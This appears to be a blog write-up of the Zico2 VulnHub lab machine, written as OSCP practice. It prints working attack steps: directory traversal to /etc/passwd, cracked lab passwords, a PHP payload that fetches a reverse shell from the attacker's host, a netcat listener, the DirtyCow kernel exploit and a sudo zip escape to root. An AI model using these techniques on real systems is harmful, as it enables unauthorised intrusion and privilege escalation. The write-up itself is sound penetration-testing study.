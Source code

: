```yaml
---
published: true
---
```


Vulnhub virtual machine; One of the last of my vulnhub boxes from the OSCP prep list. Zico2, used enumeration to find an admin login, which used basic credentials to enter. Used the backend to use php to download a reverse shell which led to privesc with dirtycow and zip.


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


Search for VM on network

    netdiscover -r 192.168.56.0/24

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255581402_image.png)


Target: 192.168.56.122


# Enumeration 

Nmap Scan:

    nmap -sV -sC -oA nmap/zico2.nmap 192.168.56.122

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255688088_image.png)


Interesting Ports:
80 - webserver
111 - unknown at this point
22 - ssh (front door)

Investigate port 80

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255777091_image.png)


checking out source:


![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255897525_image.png)


*nothing of immediate interest.*

navigating around site page is based off a php backend which could be of use in the future for a reverse php shell.

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555255978376_image.png)


Test for directory traversal with an escape

    http://192.168.56.122/view.php?page=../../../../../../etc/passwd

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256606045_image.png)


now we have an idea of users. Saved the passwd locally to folder and parsed for just user that have the ability to use sh.

    cat passwd | grep /bin/.*sh > sh.userlist

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256885725_image.png)


*at the end just appened the users to sh.userlist*




## Gobuster
    gobuster -u 192.168.56.122 -w /usr/share/seclists/Discovery/Web-Content/common.txt -s '200,204,301,302,307,403,500' -e

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256116071_image.png)


`/dbadmin/` accessible:

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555256991977_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257027322_image.png)


we found a web application name and version number along with a password field.
testing generic passwords

    password
    zico
    admin


Password: Admin # Lets take a second and talk about how this is a terrible password.

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257822213_image.png)


*“were in!”* 


Investgate the `/usr/databases/test_users` click the info button

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555258630237_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555258642957_image.png)


looks like MD5 hashes - decrypted with https://www.md5online.org/md5-decrypt.html

    root: 34kroot34
    zico: zico2215@

quick attempt to SSH using credentials — No-Go 


## searchsploit
    searchsploit phpliteadmin

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257628716_image.png)


mirror `24044.txt`

    searchploit -m exploits/php/webapps/24044.txt

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257699428_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555257876972_image.png)


Looks like we can create a new database and move to upload a reverse shell.


created a database name `execwashere.php`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259143852_image.png)


create table named `gimmeshell` with Number of Fields: `1`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259266747_image.png)

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259447971_image.png)


used `test` for the name, selected `TEXT` and inserted the default value  `<?php phphinfo(); ?>`

navigated to location of execwashere.php

    http://192.168.56.122/view.php?page=../../../usr/databases/execwashere.php

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555259657390_image.png)


Lets go input a reverse php shell since we know we can access `/usr/databases` by creating a new database named `test.php`

    <?php system("cd /usr/databases/; wget http://192.168.56.102:8000/phpshell.php"); ?>

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555323507878_image.png)



launch our reverse shell via `phpshell.php`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318152692_image.png)


Setup Listener

    nc -lvnp 9000

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555320772957_image.png)



## dirtycow

uname inspect

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318538227_image.png)


This version is [dirtycow](https://dirtycow.ninja/) susceptible.

download the dirty.c exploit from https://www.exploit-db.com/exploits/40839
setup up webserver and wget from box

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555321891441_image.png)

    wget http://192.168.56.102:8000/dirty.c

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555321869991_image.png)


Compile

    gcc -pthread dirty.c -o dirty -lcrypt

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555322047103_image.png)



----------
# Priv-Esc

navigate `/home/zico/` discovered `wordpress` and `wp-config.php`

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318229977_image.png)


we now found credentials for zico

    zico:sWfCsfJSPV9H3AmQzw8

attempt SSH with credentials:

    ssh zico@192.168.56.122

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555318341067_image.png)


check permissions:

    sudo -l

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555323321433_image.png)

# Root&Loot

Taking advantage of `zip` to elevate to root

    sudo zip /tmp/test.zip /home/zico/wordpress -T --unzip-command="sh -c /bin/bash"

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555323397092_image.png)


connect to dirtycow’d SSH

    ssh firefart@192.168.56.122

![](https://paper-attachments.dropbox.com/s_4704A1AD8D775057D1F8AFD149D96033AB7EA35A67AEAE9FD5F85CDDCF834BA0_1555322182994_image.png)



“Bring me the root” -exec

